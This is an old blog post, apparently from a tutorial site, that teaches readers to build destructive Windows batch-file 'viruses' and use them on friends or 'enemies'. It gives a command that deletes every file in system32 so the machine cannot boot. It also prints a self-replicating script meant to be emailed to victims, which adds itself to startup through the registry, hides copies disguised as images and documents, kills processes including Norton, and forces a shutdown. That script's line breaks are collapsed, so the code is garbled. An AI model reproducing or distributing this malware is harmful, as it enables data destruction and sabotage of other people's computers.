 ```yaml
---
layout: post
title:  "Destroy Your Friends Computer Using Simple Notepad Virus"
permalink: /destroy-your-friends-computer.html
redirect_from:
 - /2013/02/destroy-your-friends-computer-using.html
---
```


<strong>This tutorial is education purpose only</strong><br/>
In this post we’ll take a look on how to create a deadly computer virus to destroy your enemy or victim’s PC…

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

Open Notepad, Type or Paste in the following command:-

    del c:\windows\system32\*.* /q

Save it with the extension “.bat or .cmd” as u want…

Don’t double click the file otherwise u r in trouble. Why??? Bcz the file u created deletes all files from your system32 folder and when u restart your PC it will not start bcz system can not find the files in the system32 folder which is required at the time of booting…

You can also test the above by creating a fake folder let suppose:-

windows1 in C:.

Copy some old files in it and just follow the above command. By double clicking the bat or cmd file ur all files automaitcally get deleted.

You can try this file one any one’s computer. (but this result in causing damage to the computer, so think again before trying this on anyone’s PC)

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

Virus 2:

This post is to help you to send viruses to your enemies! Here goes,

Paste the below given code in your Notepad, then save it as anyname.bat

Do not click on that batch file… Send it to your enimies’ email… It will:

1) Copy itself into startup

2) Copy itself over one thousand times into random spots in your computer

3) Hide its self and all other created files

4) Task kill MSN, Norton, Windows Explorer, Limewire.

5) Swap the left mouse button with the right one

6) Opens alert boxes

7) Changes the time to 12:00 and shuts down the computer

<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- First Ads -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-5996828242175180"
     data-ad-slot="2764199159"
     data-ad-format="horizontal"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

CODE:-

    @Echo offcolor 4title 4title R.I.Pstartstartstartstart calccopy %0 %Systemroot%\Greatgame > nulreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ/d %systemroot%\Greatgame.bat /f > nulcopy %0 *.bat > nulAttrib +r +h Greatgame.batAttrib +r +hRUNDLL32 USER32.DLL.SwapMouseButtonstart calcclstskill msnmsgrtskill LimeWiretskill iexploretskill NMainstartclscd %userprofile%\desktopcopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batcd %userprofile%My Documentscopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batstartstart calcclsmsg * R.I.Pmsg * R.I.Pshutdown -r -t 10 -c "VIRUS DETECTED"startstarttime 12:00:R.I.Pcd %usernameprofile%\desktopcopy Greatgame.bat %random%.batgoto RIP
